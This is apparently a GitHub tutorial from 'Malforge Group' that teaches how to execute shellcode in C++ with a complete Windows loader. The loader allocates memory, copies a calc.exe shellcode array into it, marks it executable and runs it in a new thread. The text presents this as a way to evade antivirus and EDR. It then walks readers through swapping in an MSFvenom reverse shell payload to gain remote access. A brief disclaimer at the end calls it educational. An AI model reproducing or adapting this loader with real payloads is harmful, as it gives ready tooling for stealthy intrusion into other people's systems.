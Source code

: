 # Executing Shellcode with C++

## Introduction

Hello everyone, today I am going to teach you how to execute malicious shellcode with C++.

## Why Use Shellcode?

Shellcode is often used in scenarios where:

- **Stealth is critical** — It avoids writing to disk.
- **AV/EDR evasion** — Memory-resident payloads are harder to detect.
- **Precise control** over execution — You're writing and executing memory buffers directly.

![image](https://github.com/user-attachments/assets/86729f34-8ff9-4a2d-b637-7fb9dbb26312)

## 🧪 The Payload: `calc.exe`

We'll use a shellcode payload that spawns the calculator (`calc.exe`). This is commonly used as a proof-of-concept (PoC) for demonstrating shellcode execution.

---

## 🧾 Full C++ Code

```cpp
/*
  C++ implementation of a shellcode execution example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

## Proof of Concept (PoC)
To illustrate this technique, we can use a reverse shell payload created with MSFvenom in C format. Follow these steps:

Generate Shellcode: Use MSFvenom to create a reverse shell payload and format it as a C array.

![image](https://github.com/user-attachments/assets/85592f72-2ddc-4519-9cc3-08d74ce71fb4)

Insert Payload: Update the payload array in the code with the generated shellcode.

![image](https://github.com/user-attachments/assets/6b98ec6a-2354-4368-aa05-9a837c830605)

Compile and Run: Compile the C++ code into an executable (EXE) and run it to initiate the reverse shell.

![image](https://github.com/user-attachments/assets/94d3293c-b47c-4738-9fdf-df5b33aa8526)

![image](https://github.com/user-attachments/assets/4c2e683e-2659-4eff-ac64-034babac6d7c)

Upon running the EXE, the reverse shell connects, granting remote access to the system

![image](https://github.com/user-attachments/assets/087d4378-0658-4b46-80d2-f45b4203ab91)

![image](https://github.com/user-attachments/assets/a6e2233f-c24a-45d8-8c19-cee4358c0066)

## Conclusion

This guide covered how to execute shellcode in C++ and highlighted its stealth advantages. By running code in memory, shellcode can bypass many standard security measures. I hope this article was insightful and helped you understand shellcode execution.

> ⚠️ **Disclaimer:**  
> This code is for **educational purposes only**. Executing shellcode can be **highly dangerous** and may trigger antivirus alerts or cause system instability.  
> Do **not** run this code on production machines or without proper knowledge.  
> Always conduct experiments in **isolated environments** such as virtual machines or sandboxes.
---

Thank you for reading!
— **Malforge Group**
